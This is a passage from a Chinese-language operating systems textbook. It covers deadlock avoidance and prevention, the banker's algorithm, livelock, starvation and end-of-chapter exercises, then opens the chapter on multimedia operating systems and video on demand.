在图6-12中我们看到两个矩阵。左边的矩阵显示出为5个进程分别已分配的各种资源数，右边的矩阵显示了使各进程完成运行所需的各种资源数。这些矩阵就是图6-6中的C和R。和一个资源的情况一样，各进程在执行前给出其所需的全部资源量，所以在系统的每一步中都可以计算出右边的矩阵。
图6-12最右边的三个向量分别表示现有资源E、已分配资源P和可用资源A。由E可知系统中共有6台磁带机、3台绘图仪、4台打印机和2台CD-ROM驱动器。由P可知当前已分配了5台磁带机、3台绘图仪、2台打印机和2台CD-ROM驱动器。该向量可通过将左边矩阵的各列相加获得，可用资源向量可通过从现有资源中减去已分配资源获得。
检查一个状态是否安全的算法如下：
1)查找右边矩阵中是否有一行，其没有被满足的资源数均小于或等于A。如果不存在这样的行，那么系统将会死锁，因为任何进程都无法运行结束（假定进程会一直占有资源直到它们终止为止）。
2)假若找到这样一行，那么可以假设它获得所需的资源并运行结束，将该进程标记为终止，并将其资源加到向量A上。
3)重复以上两步，或者直到所有的进程都标记为终止，其初始状态是安全的；或者所有进程的资源需求都得不到满足，此时就是发生了死锁。
如果在第1步中同时有若干进程均符合条件，那么不管挑选哪一个运行都没有关系，因为可用资源或者会增多，或者至少保持不变。
图6-12中所示的状态是安全的，若进程B现在再请求一台打印机，可以满足它的请求，因为所得系统状态仍然是安全的（进程D可以结束，然后是A或E结束，剩下的进程相继结束）。
假设进程B获得两台可用打印机中的一台以后，E试图获得最后一台打印机，假若分配给E，可用资源向量会减到（1000），这时会引起死锁。显然E的请求不能立即满足，必须延迟一段时间。
银行家算法最早由Dijkstra于1965年发表。从那之后几乎每本操作系统的专著都详细地描述它，很多论文的内容也围绕该算法讨论了它的不同方面。但很少有作者指出该算法虽然很有意义但缺乏实用价值，因为很少有进程能够在运行前就知道其所需资源的最大值。而且进程数也不是固定的，往往在不断地变化（如新用户的登录或退出），况且原本可用的资源也可能突然间变成不可用（如磁带机可能会坏掉）。因此，在实际中，如果有，也只有极少的系统使用银行家算法来避免死锁。
通过前面的学习我们知道，死锁避免从本质上来说是不可能的，因为它需要获知未来的请求，而这些请求是不可知的。那么实际的系统又是如何避免死锁的呢？我们回顾Coffman等人（1971）所述的四个条件，看是否能发现线索。如果能够保证四个条件中至少有一个不成立，那么死锁将不会产生（Havender，1968）。
先考虑破坏互斥使用条件。如果资源不被一个进程所独占，那么死锁肯定不会产生。当然，允许两个进程同时使用打印机会造成混乱，通过采用假脱机打印机（spooling printer）技术可以允许若干个进程同时产生输出。该模型中惟一真正请求使用物理打印机的进程是打印机守护进程，由于守护进程决不会请求别的资源，所以不会因打印机而产生死锁。
假设守护进程被设计为在所有输出进入假脱机之前就开始打印，那么如果一个输出进程在头一轮打印之后决定等待几个小时，打印机就可能空置。为了避免这种现象，一般将守护进程设计成在完整的输出文件就绪后才开始打印。例如，若两个进程分别占用了可用的假脱机磁盘空间的一半用于输出，而任何一个也没有能够完成输出，那么会怎样？在这种情形下，就会有两个进程，其中每一个都完成了部分的输出，但不是它们的全部输出，于是无法继续进行下去。没有一个进程能够完成，结果在磁盘上出现了死锁。
不过，有一个小思路是经常可适用的。那就是，避免分配那些不是绝对必需的资源，尽量做到尽可能少的进程可以真正请求资源。
Coffman等表述的第二个条件似乎更有希望。只要禁止已持有资源的进程再等待其他资源便可以消除死锁。一种实现方法是规定所有进程在开始执行前请求所需的全部资源。如果所需的全部资源可用，那么就将它们分配给这个进程，于是该进程肯定能够运行结束。如果有一个或多个资源正被使用，那么就不进行分配，进程等待。
这种方法的一个直接问题是很多进程直到运行时才知道它需要多少资源。实际上，如果进程能够知道它需要多少资源，就可以使用银行家算法。另一个问题是这种方法的资源利用率不是最优的。例如，有一个进程先从输入磁带上读取数据，进行一小时的分析，最后会写到输出磁带上，同时会在绘图仪上绘出。如果所有资源都必须提前请求，这个进程就会把输出磁带机和绘图仪控制住一小时。
不过，一些大型机批处理系统要求用户在所提交的作业的第一行列出它们需要多少资源。然后，系统立即分配所需的全部资源，并且直到作业完成才回收资源。虽然这加重了编程人员的负担，也造成了资源的浪费，但这的确防止了死锁。
另一种破坏占有和等待条件的略有不同的方案是，要求当一个进程请求资源时，先暂时释放其当前占用的所有资源，然后再尝试一次获得所需的全部资源。
破坏第三个条件（不可抢占）也是可能的。假若一个进程已分配到一台打印机，且正在进行打印输出，如果由于它需要的绘图仪无法获得而强制性地把它占有的打印机抢占掉，会引起一片混乱。但是，一些资源可以通过虚拟化的方式来避免发生这样的情况。假脱机打印机向磁盘输出，并且只允许打印机守护进程访问真正的物理打印机，这种方式可以消除涉及打印机的死锁，然而却可能带来由磁盘空间导致的死锁。但是对于大容量磁盘，要消耗完所有的磁盘空间一般是不可能的。
然而，并不是所有的资源都可以进行类似的虚拟化。例如，数据库中的记录或者操作系统中的表都必须被锁定，因此存在出现死锁的可能。
现在只剩下一个条件了。消除环路等待有几种方法。一种是保证每一个进程在任何时刻只能占用一个资源，如果要请求另外一个资源，它必须先释放第一个资源。但假若进程正在把一个大文件从磁带机上读入并送到打印机打印，那么这种限制是不可接受的。
另一种避免出现环路等待的方法是将所有资源统一编号，如图6-13a所示。现在的规则是：进程可以在任何时刻提出资源请求，但是所有请求必须按照资源编号的顺序（升序）提出。进程可以先请求打印机后请求磁带机，但不可以先请求绘图仪后请求打印机。
若按此规则，资源分配图中肯定不会出现环。让我们看看在有两个进程的情形下为何可行，参看图6-13b。只有在A请求资源j且B请求资源i的情况下会产生死锁。假设i和j是不同的资源，它们会具有不同的编号。若i＞j，那么A不允许请求j，因为这个编号小于A已有资源的编号；若i＜j，那么B不允许请求i，因为这个编号小于B已有资源的编号。不论哪种情况都不可能产生死锁。
对于多于两个进程的情况，同样的逻辑依然成立。在任何时候，总有一个已分配的资源是编号最高的。占用该资源的进程不可能请求其他已分配的各种资源。它或者会执行完毕，或者最坏的情形是去请求编号更高的资源，而编号更高的资源肯定是可用的。最终，它会结束并释放所有资源，这时其他占有最高编号资源的进程也可以执行完。简言之，存在一种所有进程都可以执行完毕的情景，所以不会产生死锁。
该算法的一个变种是摈弃必须按升序请求资源的限制，而仅仅要求不允许进程请求比当前所占有资源编号低的资源。所以，若一个进程起初请求9号和10号资源，而随后释放两者，那么它实际上相当于从头开始，所以没有必要阻止它现在请求1号资源。
尽管对资源编号的方法消除了死锁的问题，但几乎找不出一种使每个人都满意的编号次序。当资源包括进程表项、假脱机磁盘空间、加锁的数据库记录及其他抽象资源时，潜在的资源及各种不同用途的数目会变得很大，以至于使编号方法根本无法使用。
死锁预防的各种方法如图6-14所示。
在本节中，我们会讨论一些和死锁相关的问题，包括两阶段加锁、通信死锁、活锁和饥饿。
虽然在一般情况下避免死锁和预防死锁并不是很有希望，但是在一些特殊的应用方面，有很多卓越的专用算法。例如，在很多数据库系统中，一个经常发生的操作是请求锁住一些记录，然后更新所有锁住的记录。当同时有多个进程运行时，就有出现死锁的危险。
常用的方法是两阶段加锁（two-phase locking）。在第一阶段，进程试图对所有所需的记录进行加锁，一次锁一个记录。如果第一阶段加锁成功，就开始第二阶段，完成更新然后释放锁。在第一阶段并没有做实际的工作。
如果在第一阶段某个进程需要的记录已经被加锁，那么该进程释放它所有加锁的记录，然后重新开始第一阶段。从某种意义上说，这种方法类似于提前或者至少是未实施一些不可逆的操作之前请求所有资源。在两阶段加锁的一些版本中，如果在第一阶段遇到了已加锁的记录，并不会释放锁然后重新开始，这就可能产生死锁。
不过，在一般意义下，这种策略并不通用。例如，在实时系统和进程控制系统中，由于一个进程缺少一个可用资源就半途中断它，并重新开始该进程，这是不可接受的。如果一个进程已经在网络上读写消息、更新文件或从事任何不能安全地重复做的事，那么重新运行进程也是不可接受的。只有当程序员仔细地安排了程序，使得在第一阶段程序可以在任意一点停下来，并重新开始而不会产生错误，这时这个算法才可行。但很多应用并不能按这种方式来设计。
到目前为止，我们所有的工作都着眼于资源死锁。一个进程需要使用另外一个进程拥有的资源，因此必须等待直至该进程停止使用这些资源。有时资源是硬件或者软件，比如说CD-ROM驱动器或者数据库记录，但是有时它们更加抽象。在图6-2中，可以看到当资源互斥时发生的资源死锁。这比CD-ROM驱动器更抽象一点，但是在这个例子中，每个进程都成功调用一个资源（互斥锁之一）而且死锁的进程尝试去调用另外的资源（另一个互斥锁）。这种情况是典型的资源死锁。
然而，正如我们在本章开始提到的，资源死锁是最普遍的一种类型，但不是惟一的一种。另一种死锁发生在通信系统中（比如说网络），即两个或两个以上进程利用发送信息来通信时。一种普遍的情形是进程A向进程B发送请求信息，然后阻塞直至B回复。假设请求信息丢失，A将阻塞以等待回复，而B会阻塞等待一个向其发送命令的请求，因此发生死锁。
仅仅如此并非经典的资源死锁。A没有占有B所需的资源，反之亦然。事实上，并没有完全可见的资源。但是，根据标准的定义，在一系列进程中，每个进程因为等待另外一个进程引发的事件而产生阻塞，这就是一种死锁。相比于更加常见的资源死锁，我们把上面这种情况叫做通信死锁（communication deadlock）。
通信死锁不能通过对资源排序（因为没有）或者通过仔细地安排调度来避免（因为任何时刻的请求都是不被允许延迟的）。幸运的是，另外一种技术通常可以用来中断通信死锁：超时。在大多数网络通信系统中，只要一个信息被发送至一个特定的地方，并等待其返回一个预期的回复，发送者就同时启动计时器。若计时器在回复到达前计时就停止了，则信息的发送者可以认定信息已经丢失，并重新发送（如果需要，则一直重复）。通过这种方式，可以避免死锁。
当然，如果原始信息没有丢失，而仅仅是回复延时，接收者可能收到两次或者更多次信息，甚至导致意想不到的结果。想象电子银行系统中包含付款说明的信息。很明显，不应该仅仅因为网速缓慢或者超时设定太短，就重复（并执行）多次。应该将通信规则——通常称为协议（protocol）——设计为让所有事情都正确，这是一个复杂的课题，超出了本书的范围。对网络协议感兴趣的读者可以参考作者的另外一本书——《Computer Networks》（Tanenbaum，2003）。
并非所有在通信系统或者网络发生的死锁都是通信死锁。资源死锁也会发生，如图6-15中的网络。这张图是因特网的简化图（极其简化）。因特网由两类计算机组成：主机和路由器。主机（host）是一台用户计算机，可以是某人家里的PC机、公司的个人计算机，也可能是一个共享服务器。主机由人来操作。路由器（router）是专用的通信计算机，将数据包从源发送至目的地。每台主机都连接一个或更多的路由器，可以用一条DSL线、有线电视连接、局域网、拨号线路、无线网络、光纤等来连接。
当一个数据包从一个主机进入路由器时，它被放入一个缓冲器中，然后传输到另外一个路由器，再到另一个，直至目的地。这些缓冲器都是资源并且数目有限。在图6-15中，每个路由器都有8个缓冲器（实际应用中有数以百万计，但是并不能改变潜在死锁的本质，只是改变了它的频率）。假设路由器A的所有数据包需要发送到B，B的所有数据包需要发送到C，C的所有数据包需要发送到D，然后D的所有数据包需要发送到A。那么没有数据包可以移动，因为在另一端没有缓冲器。这就是一个典型的资源死锁，尽管它发生在通信系统中。
在某种情形下，轮询（忙等待）可用于进入临界区或存取资源。采用这一策略的主要原因是，相比所做的工作而言，互斥的时间很短而挂起等待的时间开销很大。考虑一个原语，通过该原语，调用进程测试一个互斥信号量，然后或者得到该信号量或者返回失败信息。如图2-26中的例子所示。
现在假设有一对进程使用两种资源，如图6-16所示。每个进程需要两种资源，它们利用轮询原语enter_region去尝试取得必要的锁，如果尝试失败，则该进程继续尝试。在图6-16中，如果进程A先运行并得到资源1，然后进程2运行并得到资源2，以后不管哪一个进程运行，都不会有任何进展，但是哪一个进程也没有被阻塞。结果是两个进程总是一再消耗完分配给它们的CPU配额，但是没有进展也没有阻塞。因此，没有出现死锁现象（因为没有进程阻塞），但是从现象上看好像死锁发生了，这就是活锁（livelock）。
活锁也经常出人意料地产生。在一些系统中，进程表中容纳的进程数决定了系统允许的最大进程数量，因此进程表属于有限的资源。如果由于进程表满了而导致一次fork运行失败，那么一个合理的方法是：该程序等待一段随机长的时间，然后再次尝试运行fork。
现在假设一个UNIX系统有100个进程槽，10个程序正在运行，每个程序需要创建12个（子）进程。在每个进程创建了9个进程后，10个源进程和90个新的进程就已经占满了进程表。10个源进程此时便进入了死锁——不停地进行分支循环和运行失败。发生这种情况的可能性是极小的，但是，这是可能发生的！我们是否应该放弃进程以及fork调用来消除这个问题呢？
限制打开文件的最大数量与限制索引节点表的大小的方式很相像，因此，当它被完全占用的时候，也会出现相似的问题。硬盘上的交换空间是另一个有限的资源。事实上，几乎操作系统中的每种表都代表了一种有限的资源。如果有n个进程，每个进程都申请了1/n的资源，然后每一个又试图申请更多的资源，这种情况下我们是不是应该禁掉所有的呢？也许这不是一个好主意。
大多数的操作系统（包括UNIX和Windows）都忽略了一个问题，即比起限制所有用户去使用一个进程、一个打开的文件或任意一种资源来说，大多数用户可能更愿意选择一次偶然的活锁（或者甚至是死锁）。如果这些问题能够免费消除，那就不会有争论。但问题是代价非常高，因而几乎都是给进程加上不便的限制来处理。因此我们面对的问题是从便捷性和正确性中做出取舍，以及一系列关于哪个更重要、对谁更重要的争论。
值得一提的是，一些人对饥饿（缺乏资源）和死锁并不作区分，因为在两种情况下都没有下一步操作了。还有些人认为它们从根本上不同，因为可以很轻易地编写一个进程，让它做某个操作n次，并且如果它们都失败了，再试试其他的就可以了。一个阻塞的进程就没有那样的选择了。
与死锁和活锁非常相似的一个问题是饥饿（starvation）。在动态运行的系统中，在任何时刻都可能请求资源。这就需要一些策略来决定在什么时候谁获得什么资源。虽然这个策略表面上很有道理，但依然有可能使一些进程永远得不到服务，虽然它们并不是死锁进程。
作为一个例子，考虑打印机分配。设想系统采用某种算法来保证打印机分配不产生死锁。现在假设若干进程同时都请求打印机，究竟哪一个进程能获得打印机呢？
一个可能的分配方案是把打印机分配给打印最小文件的进程（假设这个信息可知）。这个方法让尽量多的顾客满意，并且看起来很公平。我们考虑下面的情况：在一个繁忙的系统中，有一个进程有一个很大的文件要打印，每当打印机空闲，系统纵观所有进程，并把打印机分配给打印最小文件的进程。如果存在一个固定的进程流，其中的进程都是只打印小文件，那么，要打印大文件的进程永远也得不到打印机。很简单，它会“饥饿而死”（无限制地推后，尽管它没有被阻塞）。
饥饿可以通过先来先服务资源分配策略来避免。在这种机制下，等待最久的进程会是下一个被调度的进程。随着时间的推移，所有进程都会变成最“老”的，因而，最终能够获得资源而完成。
死锁在操作系统发展的早期就作为一个课题被详细地研究过。死锁的检测是一个经典的图论问题，任何对数学有兴趣的研究生都可以在其上做3～4年的研究。所有相关的算法都已经经过了反复修正，但每次修正总是得到更古怪、更不现实的算法。大部分工作已经结束了，但是仍然有很多关于死锁各方面内容的论文发表。这些论文包括由于错误使用锁和信号量而导致的死锁的运行时间检测（Agarwal和Stoller,2006；Bensalem等人,2006）；在Java线程中预防死锁（Permandia等人，2007；Williams等人，2005）；处理网络上的死锁（Jayasimha,2003；Karol等人，2003；Schafer等人，2005）；数据流系统中的死锁建模（Zhou和Lee,2006）；检测动态死锁（Li等人，2005）。Levine（2003a,2003b）比较了文献中关于死锁各种不同的（经常相矛盾的）定义，从而提出了一个分类方案。她也从另外的角度分析了关于预防死锁和避免死锁的区别（Levine，2005）。而死锁的恢复也是一个正在研究的问题（David等人，2007）。
然而，还有一些（理论）研究是关于分布式死锁检测的，我们在这里不做表述，因为它超出了本书的范围，而且这些研究在实际系统中的应用非常少，似乎只是为了让一些图论家有事可做罢了。
死锁是任何操作系统的潜在问题。在一组进程中，每个进程都因等待由该组进程中的另一进程所占有的资源而导致阻塞，死锁就发生了。这种情况会使所有的进程都处于无限等待的状态。一般来讲，这是进程一直等待被其他进程占用的某些资源释放的事件。死锁的另外一种可能的情况是一组通信进程都在等待一个消息，而通信信道却是空的，并且也没有采用超时机制。
通过跟踪哪一个状态是安全状态，哪一个状态是不安全状态，可以避免死锁。安全状态就是这样一个状态：存在一个事件序列，保证所有的进程都能完成。不安全状态就不存在这样的保证。银行家算法可以通过拒绝可能引起不安全状态的请求来避免死锁。
也可以在设计系统时就不允许死锁发生，从而在系统结构上预防死锁的发生。例如，只允许进程在任何时刻最多占有一个资源，这就破坏了循环等待环路。也可以将所有的资源编号，规定进程按严格的升序请求资源，这样也能预防死锁。
资源死锁并不是惟一的一种死锁。尽管我们可以通过设置适当的超时机制来解决通信死锁，但它依然是某些系统中潜在的问题。
活锁和死锁的问题有些相似，那就是它也可以停止所有的转发进程，但是二者在技术上不同，由于活锁包含了一些实际上并没有锁住的进程，因此可以通过先来先服务的分配策略来避免饥饿。
1.给出一个由策略产生的死锁的例子。
2.学生们在机房的个人计算机上将自己要打印的文件发送给服务器，服务器会将这些文件暂存在它的硬盘上。如果服务器磁盘空间有限，那么，在什么情况下会产生死锁？这样的死锁应该怎样避免？
3.在图6-1中，资源释放的顺序与获得的顺序相反，以其他的顺序释放资源能否得到同样的结果？
4.一个资源死锁的发生有四个必要条件（互斥使用资源、占有和等待资源、不可抢占资源和环路等待资源）。举一个例子说明这些条件对于一个资源死锁的发生不是充分的。何时这些条件对一个资源死锁的发生是充分条件？
5.图6-3给出了资源分配图的概念，试问是否存在不合理的资源分配图，即资源分配图在结构上违反了使用资源的模型？如果存在，请给出一个例子。
6.假设一个系统中存在一个资源死锁。举一个例子说明死锁的进程集合中可能包括了不在相应的资源分配图中循环链中的进程。
7.鸵鸟算法中提到了填充进程表表项或者其他系统表的可能。能否给出一种能够使系统管理员从这种状况下恢复系统的方法？
8.解释系统是如何从前面问题的死锁中恢复的，使用a)抢占；b)回滚；c)终止进程。
9.假设在图6-6中，对某个i，有Cij +Rij ＞Ej ，这意味着什么？
10.请说明表6-8中的模型与6.5.2节描述的安全状态和不安全状态有什么主要的差异。差异带来的后果是什么？
11.图6-8所示的资源轨迹模式是否可用来说明三个进程和三个资源的死锁问题？如果可以，它是怎样说明的？如果不可以，请解释为什么。
12.理论上，资源轨迹图可以用于避免死锁。通过合理的调度，操作系统可避免进入不安全区域。请列举一个在实际运用这种方法时会带来的问题。
13.一个系统是否可能处于既非死锁也不安全的状态？如果可以，举出例子；如果不可以，请证明所有状态只能处于死锁或安全两种状态之一。
14.考虑一个使用银行家算法避免死锁的系统。某个时刻一个进程P请求资源R，但即使R当前可用这个请求也被拒绝了。如果系统分配R给P，是否意味着系统将会死锁？
15.银行家算法的一个主要限制就是需要知道所有进程的最大资源需求的信息。有没有可能设计一个不需要这些信息而避免死锁的算法？解释你的方法。
16.仔细考察图6-11b，如果D再多请求1个单位，会导致安全状态还是不安全状态？如果换成C提出同样请求，情形会怎样？
17.某一系统有两个进程和三个相同的资源。每个进程最多需要两个资源。这种情况下有没有可能发生死锁？为什么？
18.再考虑上一个问题，但现在有p个进程，每个进程最多需要m个资源，并且有r个资源可用。什么样的条件可以保证死锁不会发生？
19.假设图6-12中的进程A请求最后一台磁带机，这一操作会引起死锁吗？
20.一个计算机有6台磁带机，由n个进程竞争使用，每个进程可能需要两台磁带机，那么n是多少时系统才没有死锁的危险？
21.银行家算法在一个有m个资源类型和n个进程的系统中运行。当m和n都很大时，为检查状态是否安全而进行的操作次数正比于ma nb 。a和b的值是多少？
22.一个系统有4个进程和5个可分配资源，当前分配和最大需求如下：
若保持该状态是安全状态，x的最小值是多少？
23.一个消除环路等待的方法是用规则说明一个进程在任意时刻只能得到一个资源。举例说明在很多情况下这个限制是不可接受的。
24.两个进程A和B，每个进程都需要数据库中的3个记录1、2、3。如果A和B都以1、2、3的次序请求，将不会发生死锁。但是如果B以3、2、1的次序请求，那么死锁就有可能会发生。对于这3种资源，每个进程共有3！（即6）种次序请求，这些组合中有多大的可能可以保证不会发生死锁？
25.一个使用信箱的分布式系统有两条IPC原语：send和receive。receive原语用于指定从哪个进程接收消息，并且如果指定的进程没有可用消息，即使有从其他进程发来的消息，该进程也等待。不存在共享资源，但是进程由于其他原因需要经常通信。死锁会产生吗？请讨论这一问题。
26.在一个电子资金转账系统中，有很多相同进程按如下方式工作：每一进程读取一行输入，该输入给出一定数目的款项、贷方账户、借方账户。然后该进程锁定两个账户，传送这笔钱，完成后释放锁。由于很多进程并行运行，所以存在这样的危险：锁定x会无法锁定y，因为y已被一个正在等待x的进程锁定。设计一个方案来避免死锁。在没有完成事务处理前不要释放该账户记录。（换句话说，在锁定一个账户时，如果发现另一个账户不能被锁定就立即释放这个已锁定的账户。）
27.一种预防死锁的方法是去除占有和等待条件。在本书中，假设在请求一个新的资源以前，进程必须释放所有它已经占有的资源（假设这是可能的）。然而，这样做会引入这样的危险性：使竞争的进程得到了新的资源但却丢失了原有的资源。请给出这一方法的改进。
28.计算机系学生想到了下面这个消除死锁的方法。当某一进程请求一个资源时，规定一个时间限。如果进程由于得不到需要的资源而阻塞，定时器开始运行。当超过时间限时，进程会被释放掉，并且允许该进程重新运行。如果你是教授，你会给这样的学生多少分？为什么？
29.解释死锁、活锁和饥饿的区别。
30.Cinderella和Prince要离婚，为分割财产，他们商定了以下算法。每天早晨每个人发函给对方律师要求财产中的一项。由于邮递信件需要一天的时间，他们商定如果发现在同一天两人请求了同一项财产，第二天他们会发信取消这一要求。他们的财产包括狗Woofer、Woofer的狗屋、金丝雀Tweeter和Tweeter的鸟笼。由于这些动物喜爱它们的房屋，所以又商定任何将动物和它们房屋分开的方案都无效，且整个分配从头开始。Cinderella和Prince都非常想要Woofer。于是他们分别去度假，并且每人都编写程序用一台个人计算机处理这一谈判工作。当他们度假回来时，发现计算机仍在谈判，为什么？产生死锁了吗？产生饥饿了吗？请讨论。
31.一个主修人类学、辅修计算机科学的学生参加了一个研究课题，调查是否可以教会非洲狒狒理解死锁。他找到一处很深的峡谷，在上边固定了一根横跨峡谷的绳索，这样狒狒就可以攀住绳索越过峡谷。同一时刻，只要朝着相同的方向就可以有几只狒狒通过。但如果向东和向西的狒狒同时攀在绳索上那么会产生死锁（狒狒会被卡在中间），因为它们无法在绳索上从另一只的背上翻过去。如果一只狒狒想越过峡谷，它必须看当前是否有别的狒狒正在逆向通行。利用信号量编写一个避免死锁的程序来解决该问题。不考虑连续东行的狒狒会使得西行的狒狒无限制地等待的情况。
32.重复上一个习题，但此次要避免饥饿。当一只想向东去的狒狒来到绳索跟前，但发现有别的狒狒正在向西越过峡谷时，它会一直等到绳索可用为止。但在至少有一只狒狒向东越过峡谷之前，不允许再有狒狒开始从东向西越过峡谷。
33.编写银行家算法的模拟程序。该程序应该能够循环检查每一个提出请求的银行客户，并且能判断这一请求是否安全。请把有关请求和相应决定的列表输出到一个文件中。
34.写一个程序实现每种类型多个资源的死锁检测算法。你的程序应该从一个文件中读取下面的输入：进程数、资源类型数、每种存在类型的资源数（向量E）、当前分配矩阵C（第一行，接着第二行，以此类推）、需求矩阵R（第一行，接着第二行，以此类推）。你的程序输出应表明在此系统中是否有死锁。如果系统中有死锁，程序应该打印出所有死锁的进程id号。
35.写一个程序使用资源分配图检测系统中是否存在死锁。你的程序应该从一个文件中读取下面的输入：进程数和资源数。对每个进程，你应该读取4个数：进程当前持有的资源数、它持有的资源的ID、它当前请求的资源数、它请求的资源ID。程序的输出应表明在此系统中是否有死锁。如果系统中有死锁，程序应该打印出所有死锁的进程id号。
数字电影、视频剪辑和音乐正在日益成为用计算机表示信息和进行消遣娱乐的常用方式。音频和视频文件可以保存在磁盘上，并且在需要的时候进行回放。音频和视频文件的特征与传统的文本文件存在很大的差异，而目前的文件系统却是为文本文件设计的。因此，需要设计新型的文件系统来处理音频和视频文件。不仅如此，保存与回放音频和视频同样给调度程序以及操作系统的其他部分提出了新的要求。本章中，我们将研究这些问题以及它们与设计用来处理多媒体信息的操作系统之间的关系。
数字电影通常归于多媒体名下，多媒体的字面含义是一种以上的媒体。在这样的定义下，本书就是一部多媒体作品，毕竟它包含了两种媒体：文本和图像（插图）。然而，大多数人使用“多媒体”这一术语时所指的是包含两种或更多种连续媒体的文档，连续媒体也就是必须能够在某一时间间隔内回放的媒体。本书中，我们将在这样的意义下使用多媒体这一术语。
另一个有些模糊的术语是“视频”。在技术意义上，视频只是一部电影的图像部分（相对的是声音部分）。实际上，摄像机和电视机通常有两个连接器，一个标为“视频”，一个标为“音频”，因为这两个信号是分开的。然而，“数字视频”这一术语通常指的是完整的作品，既包含图像也包含声音。后面我们将使用“电影”这一术语指完整的作品。注意，在这种意义下一部电影不一定是好莱坞以超过一架波音747的代价制作的长达两小时的大片，一段通过因特网从CNN主页下载的30秒长的新闻剪辑在这一定义下也是一部电影。当我们提到非常短的电影时，也将其称为“视频剪辑”。
在讨论多媒体技术之前，了解其目前和将来的用法可能有助于对问题的理解。在一台计算机上，多媒体通常意味着从数字通用光盘（Digital Versatile Disk，DVD）播放一段预先录好的电影。DVD是一种光盘，它使用与CD-ROM相同的120 mm聚碳酸脂（塑料）盘片，但是记录密度更高，容量在5GB到17GB之间（取决于记录格式）。
有两个候选者正在竞争成为DVD的后继者。一个是Blu-ray（蓝光）格式，其单层格式容量有25GB（双层格式有50GB）。另一个是HD DVD格式，其单层格式容量有15GB（双层格式30GB）。每一种格式都由一个不同的计算机和电影公司的财团支持。显然，电子与娱乐产业非常怀念在20世纪70年代到80年代Betamax与VHS的“格式大战”，因此他们决定重现这场战争。毋庸置疑，当消费者等着看哪家最终胜出时，这两个系统的普及也会因为这次“格式大战”而推迟好几年。
另一种多媒体的使用是从Internet上下载视频短片。许多网页都有可以点击下载短片的栏目。像YouTube一样的Web站点有成千上万可供欣赏的视频短片。随着有线电视与ADSL（非对称数字用户环线）的普及，更快的发布技术会占据市场，Internet中的视频短片将会像火箭升天一样猛增。
另一个必须支持多媒体的领域是视频本身的制作。目前有许多多媒体编辑系统，这些系统需要在不仅支持传统作业而且还支持多媒体的操作系统上运行，以获得最好的性能。
多媒体还在另一个领域中发挥着越来越重要的作用，这就是计算机游戏。计算机游戏经常要运行短暂的视频剪辑来描述某种活动。这些视频剪辑通常很短，但是数量非常多，并且还要根据用户采取的某些行动动态地选择正确的视频剪辑。计算机游戏正变得越来越复杂。当然，游戏本身也会生成大量的动画，不过，处理程序生成的视频与播放一段电影是不相同的。
最后，多媒体世界的圣杯是视频点播（video on demand），这意味着消费者能够在家中使用电视遥控器（或鼠标）选择电影，并且立刻将其在电视机（或计算机显示器）上显示出来。视频点播要求有特殊的基础设施才能使用。图7-1所示为两种可能的视频点播基础设施，每种都包含三个基本的组件：一个或多个视频服务器、一个分布式网络以及一个在每个房间中用来对信号进行解码的机顶盒。视频服务器（video server）是一台功能强大的计算机，在其文件系统中存放着许多电影，并且可以按照点播请求回放这些电影。大型机有时用来作为视频服务器，因为大型机连接1000个大容量的磁盘是一件轻而易举的事情；而在个人计算机上连接1000个容量不太大的磁盘也是一件很困难的事情。在本章后续各节中，有许多材料是关于视频服务器及其操作系统的。
用户和视频服务器之间的分布式网络必须能够高速实时地传输数据。这种网络的设计十分有趣也十分复杂，但是这超出了本书的范围。我们不想更多地讨论分布式网络，只想说明分布式网络总是使用光纤从视频服务器连接到客户居住的居民点的汇接盒。ADSL系统是由电话公司经营的，在ADSL系统中，现有的双绞电话线提供了最后一公里的数据传输。有线电视是由有线电视公司经营的，在有线电视系统中，现有的有线电视电缆用于信号的本地分送。ADSL的优点是为每个用户提供了专用数据通道，因此带宽有保证，但是由于现有电话线的局限其带宽比较低（只有几Mb/s）。有线电视使用高带宽的同轴电缆，带宽可以达到几Gb/s，但是许多用户必须共享相同的电缆，从而导致竞争，对于每个用户来说带宽没有保证。不过，为了与有线电视竞争，电话公司正在为住户铺设光缆，这样，光缆上的ADSL将比电视电缆有更大的带宽。
系统的最后一部分是机顶盒（set-top box），这是ADSL或电视电缆终结的地方。机顶盒实际上就是普通的计算机，只不过其中包含特殊的芯片用于视频解码和解压缩。机顶盒最少要包含CPU、RAM、ROM、与ADSL或电视电缆的接口，以及用于跟电视机连接的端子。
机顶盒的替代品是使用客户现有的PC机并且在显示器上显示电影。十分有趣的是，大多数客户可能都已经拥有一台计算机，为什么还要考虑机顶盒呢，这是因为视频点播的运营商认为人们更愿意在起居室中看电影，而起居室中通常放有电视机，很少有计算机。从技术角度看，使用个人计算机代替机顶盒更有道理，因为计算机的功能更加强大，拥有大容量的磁盘，并且拥有更高分辨率的显示器。不管采用的是机顶盒还是个人计算机，在解码并显示电影的用户端，我们通常都要区分视频服务器和客户机进程。然而，以系统设计的观点，客户机进程是在机顶盒上运行还是在PC机上运行并没有太大的关系。对于桌面视频编辑系统而言，所有的进程都运行在相同的计算机上，但是我们将继续使用服务器和客户这样的术语，以便搞清楚哪个进程正在做什么事情。
回到多媒体本身，要想成功地处理多媒体则必须很好地理解它所具有的两个关键特征：
1)多媒体使用极高的数据率。
2)多媒体要求实时回放。
高数据率来自视觉与听觉信息的本性。眼睛和耳朵每秒可以处理巨大数量的信息，必须以这样的速率为眼睛和耳朵提供信息才能产生可以接受的观察体验。图7-2列举了几种数字多媒体源和某些常见硬件设备的数据率。在本章后面我们将讨论这些编码格式。需要注意的是，多媒体需要的数据率越高，则越需要进行压缩，并且需要的存储量也就越大。例如，一部未压缩的2小时长的HDTV电影将填满一个570GB的文件。存放1000部这种电影的视频服务器需要570TB的磁盘空间，按照目前的标准这可是难以想象的数量。还需要注意的是，没有数据压缩，目前的硬件不可能跟上这样的数据率。我们将在本章后面讨论视频压缩。
多媒体对系统提出的第二个要求是需要实时数据传输。数字电影的视频部分每秒包含某一数目的帧。北美、南美和日本采用的NTSC制式每秒包含30帧（对纯粹主义者而言是29.97帧），世界上其他大部分地区采用的PAL和SECAM制式每秒包含25帧（对纯粹主义者而言是25.00帧）。帧必须分别以33.3ms或40ms的精确时间间隔传输，否则电影看起来将会有起伏。
NTSC代表美国国家电视标准委员会（National Television Standards Committee），但是当彩色电视发明时将彩色引入该标准的拙劣方法产生了业界的一个笑话，戏称NTSC代表决不复现相同的颜色（Never Twice the Same Color）。PAL代表相位交错排列（Phase Alternating Line），它是技术上最好的制式。SECAM代表顺序与存储彩色（SEquentiel Couleur Avec Memoire），该制式被法国采用，意在保护法国的电视制造商免受国外竞争。SECAM还被东欧国家所采用。
